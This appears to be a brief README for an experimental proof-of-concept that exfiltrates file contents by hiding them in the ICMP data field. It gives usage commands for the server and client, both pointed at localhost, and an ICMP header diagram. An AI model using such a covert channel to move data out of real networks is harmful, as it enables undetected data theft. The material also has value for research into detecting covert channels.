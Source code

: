 # Usage

**Start server:**

`python3 server.py -b 127.0.0.1`

**Start client and transfer file content:**

`python3 cient.py message.txt 127.0.0.1`


# How it works
This is an experimental poc to exfiltrate information inside the ICMP data field.
```
 0                   1                   2                   3
    0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |     Type      |     Code      |          Checksum             |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |           Identifier          |        Sequence Number        |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |     Data ...
   +-+-+-+-+-
```
See [RFC 792](https://datatracker.ietf.org/doc/html/rfc792)
